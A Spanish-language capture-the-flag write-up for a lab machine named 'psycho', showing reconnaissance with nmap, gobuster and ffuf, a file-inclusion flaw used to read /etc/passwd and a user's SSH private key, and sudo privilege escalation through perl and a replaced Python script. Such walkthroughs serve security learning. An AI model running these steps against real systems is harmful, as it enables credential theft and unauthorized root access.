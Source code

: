 # Máquina psycho

---

Dificultad -> Fácil

---

Primero, realizamos un escaneo con nmap para ver puertos y servicios abiertos

```shell
nmap -p- --open -sV -sC -sS --min-rate=5000 -n -Pn 172.17.0.2
--------------------------------------------------------------
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 38:bb:36:a4:18:60:ee:a8:d1:0a:61:97:6c:83:06:05 (ECDSA)
|_  256 a3:4e:4f:6f:76:f2:ba:50:c6:1a:54:40:95:9c:20:41 (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: 4You
```

Vemos que hay un ssh y un apache asi que accedemos desde el navegador

![](assets/2025-10-25-16-03-32-image.png)

Podemos ver una simple pagina web, pero si miramos abajo del todo en el codigo fuente se puede ver un error que puede que nos sirva en un futuro

![](assets/2025-10-25-16-04-24-image.png)

Como no veo nada más, procedo a hacer fuzzing con gobuster

```shell
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x js,txt,php,html -t 64
---------------------------------------------------------------------------------------------------------------------------
/index.php            (Status: 200) [Size: 2596]
/assets               (Status: 301) [Size: 309] [--> http://172.17.0.2/assets/]
/server-status        (Status: 403) [Size: 275]
```

Encuentro index.php que es la pagina que hemos visto anteriormete y  /assets donde se encuentra una imagen que podemos descargar

![](assets/2025-10-25-16-06-52-image.png)

Descargo la imagen y pruebo a buscar texto oculto en los metadatos y con steganografía pero no encuentro nada.

Volviendo al error de antes, posiblemente falte un argumento en el index.php

asi que busco posibles argumentos con ffuf

```shell
ffuf -u http://172.17.0.2/index.php?FUZZ=id -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -fw 674 -t 64
```

ffuf encuentra el parámetro secret asi que pruebo a ejecutar comandos con index.php?secret=id pero solo desaparece error, pruebo a poner index.php?secret=/etc/passwd y consigo ver el contenido del passwd

![](assets/2025-10-25-17-28-30-image.png) 

podemos ver que hay 2 usuarios; vaxei y luisillo, pruebo ha hacer bruteforce con hydra pero no consigo nada asi que pruebo a ver la clave id_rsa de los usuarios con /home/usuario/.ssh/id_rsa y encuentro la clave de vaxei

![](assets/2025-10-25-17-35-06-image.png)

Guardo la clave  en mi maquina y me conecto por ssh con la clave 

```shell
ssh -i sshkey vaxei@172.17.0.2
```

Una vez dentro como el usuario vaxei, buscamos binarios con sudo -l y encontramos que podemos ejecutar el binario perl como el usuario luisillo

![](assets/2025-10-25-17-39-00-image.png)

Buscamos el binario en [GTFOBins](https://gtfobins.github.io/gtfobins/perl/#sudo) y nos convertimos en el usuario luisillo con

```shell
sudo -u luisillo perl -e 'exec "/bin/sh";'
```

Volvemos a buscar binarios y encontramos que podemos ejecutar un script de python como root

![](assets/2025-10-25-17-42-19-image.png)

Nos dirijimos al script y vemos que no hace nada que nos pueda dar permisos.

No nos deja modificar el script pero si nos deja eliminarlo asi que lo eliminamos y creamos otro con el mismo nombre con el siguiente contenido para que nos abra una shell como root

```shell
import os; os.system("/bin/sh")
```

Finalement, ejecutamos el script con sudo y conseguimos ser root

![](assets/2025-10-25-17-48-29-image.png)


